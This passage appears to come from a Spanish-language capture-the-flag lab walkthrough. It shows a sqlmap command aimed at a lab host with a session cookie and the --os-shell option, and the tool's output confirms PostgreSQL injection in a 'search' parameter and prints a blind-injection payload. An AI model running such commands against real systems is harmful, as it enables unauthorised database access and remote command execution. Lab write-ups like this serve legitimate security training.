 🗹 Obtener una shell a través de `sqlmap`:

```shell
sqlmap -u "http://10.129.228.82/dashboard.php?search=test" --cookie="PHPSESSID=d7shv2ksji2q76p2oevbjn66ps" --os-shell
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.2#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:12:02 /2024-03-20/

[15:12:02] [INFO] testing connection to the target URL
[15:12:05] [INFO] checking if the target is protected by some kind of WAF/IPS
[15:12:07] [INFO] testing if the target URL content is stable
[15:12:07] [INFO] target URL content is stable
[15:12:07] [INFO] testing if GET parameter 'search' is dynamic
[15:12:07] [WARNING] GET parameter 'search' does not appear to be dynamic
[15:12:07] [INFO] heuristic (basic) test shows that GET parameter 'search' might be injectable (possible DBMS: 'PostgreSQL')
[15:12:07] [INFO] heuristic (XSS) test shows that GET parameter 'search' might be vulnerable to cross-site scripting (XSS) attacks
[15:12:07] [INFO] testing for SQL injection on GET parameter 'search'
it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 

for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] 

[15:12:11] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:12:13] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[15:12:14] [INFO] testing 'Generic inline queries'
[15:12:14] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[15:12:15] [INFO] GET parameter 'search' appears to be 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)' injectable 
[15:12:15] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[15:12:15] [INFO] GET parameter 'search' is 'PostgreSQL AND error-based - WHERE or HAVING clause' injectable 
[15:12:15] [INFO] testing 'PostgreSQL inline queries'
[15:12:16] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[15:12:16] [WARNING] time-based comparison requires larger statistical model, please wait....... (done)                                                                                
[15:12:30] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable 
[15:12:30] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[15:12:41] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 AND time-based blind' injectable 
[15:12:41] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 

sqlmap identified the following injection point(s) with a total of 34 HTTP(s) requests:
---
Parameter: search (GET)
    Type: boolean-based blind
    Title: PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)
    Payload: search=test' AND (SELECT (CASE WHEN (7890=7890) THEN NULL ELSE CAST((CHR(119)||CHR(99)||CHR(122)||CHR(76)) AS NUMERIC) END)) IS NULL-- SLXz

```